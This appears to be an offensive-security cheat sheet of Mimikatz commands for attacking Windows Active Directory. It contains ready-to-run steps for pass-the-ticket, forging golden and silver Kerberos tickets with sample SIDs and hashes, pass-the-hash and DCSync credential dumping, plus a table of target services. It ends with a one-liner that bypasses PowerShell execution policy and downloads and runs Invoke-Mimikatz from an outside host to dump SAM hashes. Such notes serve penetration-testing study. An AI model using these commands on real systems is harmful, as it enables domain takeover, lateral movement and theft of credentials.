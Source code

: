 ```PowerShell

# Pass-the-ticket
kerberos::list
kerberos::purge # CAUTION: Clear tickets
kerberos::ptt ticket.kirbi # Inject a Kerberos ticket
# Golden ticket (forge TGT)
kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1393c6cefafafc7af11ef36d1c788f47 /ptt
# Silver Ticket; note "jebadmin" given user can be any existing user in the domain. If this doesn't work, try giving another user that exists in the domain
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:3d28cf1232d39971419580a51484ca09 /user:jebadmin
# Pass-the-hash Silver Ticket (forge TGS)
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:powershell.exe
# DCSync (we must have access to a user that is in at least one of "Domain Admins", "Enterprise Admins", or "Administrators")
# "Administrator" is the user we ant to obtain credentials for
# "impacket-secretsdump" is the equivalent
lsadump::dcsync /user:corp\Administrator
```
- `klist` to validate tickets are now in-memory (thanks to `/ptt` flag)

Common `/service` options in `kerberos::golden`:

| Service Option     | SPN (Service Principal Name) | Purpose                                                   |
| ------------------ | ---------------------------- | --------------------------------------------------------- |
| `/service:krbtgt`  | `krbtgt/<DOMAIN>`            | Default for **Golden Tickets** (domain-wide access)       |
| `/service:cifs`    | `cifs/<SERVER>`              | File sharing and SMB access (lateral movement)            |
| `/service:http`    | `http/<SERVER>`              | Web applications and IIS services                         |
| `/service:ldap`    | `ldap/<SERVER>`              | LDAP directory access (used for AD enumeration)           |
| `/service:rpc`     | `rpc/<SERVER>`               | Remote Procedure Calls (RPC) for remote system management |
| `/service:host`    | `host/<SERVER>`              | Generic host services (used for remote desktop and WMI)   |
| `/service:ftp`     | `ftp/<SERVER>`               | FTP server access                                         |
| `/service:wsman`   | `wsman/<SERVER>`             | Windows Remote Management (WinRM) for PowerShell remoting |
| `/service:mssql`   | `mssql/<SERVER>`             | SQL Server database access                                |
| `/service:termsrv` | `termsrv/<SERVER>`           | Remote Desktop Protocol (RDP) access                      |
| `/service:smb`     | `smb/<SERVER>`               | Alternative to `cifs` for SMB access                      |
| `/service:svc`     | `svc/<SERVER>`               | Custom services running under specific service accounts   |

```PowerShell
powershell -nop -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.195/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug token::elevate lsadump::sam'"
```

